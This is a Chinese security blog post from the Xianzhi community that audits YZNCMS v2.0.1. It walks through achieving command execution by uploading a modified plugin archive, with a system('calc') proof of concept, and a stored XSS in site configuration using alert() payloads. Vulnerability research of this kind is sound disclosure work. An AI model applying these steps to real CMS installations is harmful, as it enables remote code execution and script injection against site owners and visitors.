








# YZNCMS白盒审计开源漏洞挖掘分析-先知社区

> **来源**: https://xz.aliyun.com/news/16965  
> **文章ID**: 16965

---

## File Upload Vulnerability

YZNCMS最新版本v2.0.1调试模式下，插件安装功能存在文件上传导致的命令执行漏洞，攻击者可以在本地修改插件压缩包上传，调用插件功能命令执行。

​

YZNCMS STARS>2k影响力还是挺大的，下面详细讲解一下漏洞分析过程

源码地址：<https://gitee.com/ken678/YZNCMS/tree/v2.0.1>



## 漏洞分析

登入后台，使用插件安装功能随意选一个插件安装  
​

调试发现安装的插件压缩包在`runtime\admin\addons\command.zip`

下载这个压缩包，修改里面的控制器文件`app\admin\controller\Command.php`中`command`方法代码部分为命令执行`calc`

```
    if ($action == 'execute') {
            system('calc');
            $result = $this->doexecute($commandtype, $argv);
            $this->success("", null, ['result' => $result]);
        } else {
            $this->success("", null, ['command' => "php think {$commandtype} " . implode(' ', $argv)]);
        }
    }
```

修改后完整代码如下

```
    public function command($action = '')
    {
        $commandtype = $this->request->request("commandtype");
        $params      = $this->request->request();
        $allowfields = [
            'crud' => 'table,controller,model,fields,force,local,delete,menu',
            'menu' => 'controller,force,delete',
            'min'  => 'module,resource,optimize',
        ];
        $argv        = [];
        $allowfields = isset($allowfields[$commandtype]) ? explode(',', $allowfields[$commandtype]) : [];
        $allowfields = array_filter(array_intersect_key($params, array_flip($allowfields)));

        if (isset($params['local']) && !$params['local']) {
            $allowfields['local'] = $params['local'];
        } else {
            unset($allowfields['local']);
        }
        foreach ($allowfields as $key => $param) {
            $argv[] = "--{$key}=" . (is_array($param) ? implode(',', $param) : $param);
        }
        if ($commandtype == 'crud') {
            $extend    = 'setcheckboxsuffix,enumradiosuffix,imagefield,filefield,intdatesuffix,switchsuffix,citysuffix,selectpagesuffix,selectpagessuffix,ignorefields,sortfield,editorsuffix,headingfilterfield,tagsuffix,jsonsuffix,fixedcolumns';
            $extendArr = explode(',', $extend);
            foreach ($params as $index => $item) {
                if (in_array($index, $extendArr)) {
                    foreach (explode(',', $item) as $key => $value) {
                        if ($value) {
                            $argv[] = "--{$index}={$value}";
                        }
                    }
                }
            }
            $isrelation = (int) $this->request->request('isrelation');
            if ($isrelation && isset($params['relation'])) {
                foreach ($params['relation'] as $index => $relation) {
                    foreach ($relation as $key => $value) {
                        $value            = (is_array($value) ? implode(',', $value) : $value);
                        $value && $argv[] = "--{$key}=" . $value;
                    }
                }
            }
        } elseif ($commandtype == 'menu') {
            foreach (explode(',', $params['controllerfile']) as $index => $param) {
                if ($param) {
                    $argv[] = "--controller=" . substr($param, 0, -4);
                }
            }
        }
        if ($action == 'execute') {
            system('calc');
            $result = $this->doexecute($commandtype, $argv);
            $this->success("", null, ['result' => $result]);
        } else {
            $this->success("", null, ['command' => "php think {$commandtype} " . implode(' ', $argv)]);
        }
    }
```

在调试模式下，攻击者可以上传本地修改后的插件压缩包即可调用命令执行

```
   if ($action == 'execute') {
            system('calc');
            $result = $this->doexecute($commandtype, $argv);
            $this->success("", null, ['result' => $result]);
        } else {
            $this->success("", null, ['command' => "php think {$commandtype} " . implode(' ', $argv)]);
        }
```

我们使用这个插件，点击立即执行，成功弹出计算器  
​

## 跨站脚本漏洞攻击（XSS）

YZNCMS 最新版本2.0.1的Config.php存在存储型XSS漏洞。该漏洞的发生是由于输入验证和清理不足，允许攻击者将恶意脚本注入网页，然后在其他用户的浏览器中执行。

### 调试分析

漏洞代码在admin/controller/general/Config.php

```
public function edit()  
{  
    $id  = $this->request->param('id/d');  
    $row = $this->modelClass->find($id);  
    if (!$row) {  
        $this->error('记录未找到');  
    }  
    if ($this->request->isPost()) {  
        $this->token();  
        $params = $this->request->post("row/a");  
        if ($params) {  
            try {  
                $this->validate($params, 'app\admin\validate\Config');  
                $res = $row->save($params);  
            } catch (ValidateException | Exception $e) {  
                $this->error($e->getMessage());  
            }  
            if ($res !== false) {  
                try {  
                    ConfigModel::refreshFile();  
                } catch (Exception $e) {  
                    $this->error($e->getMessage());  
                }  
                $this->success('编辑成功');  
            } else {  
                $this->error($row->getError());  
            }  
        }  
        $this->error('参数不能为空');  
    }  
    $fieldType = Db::name('field_type')->order('listorder')->select();  
    $this->assign([  
        'data'      => $row,  
        'id'        => $id,  
        'fieldType' => $fieldType,  
    ]);  
    return $this->fetch();  
}
```

跟踪发现调用了`ConfigModel::refreshFile()`  
  
接着跟进发现调用了写文件，没有对内容进行过滤  


在后台配置管理中对站点名称进行编辑  
  
编辑默认值写为poc  


```
<script>alert(/xss/)</script>

javascript:alert('XSS')
```

当再次进入该功能会自动触发XSS漏洞


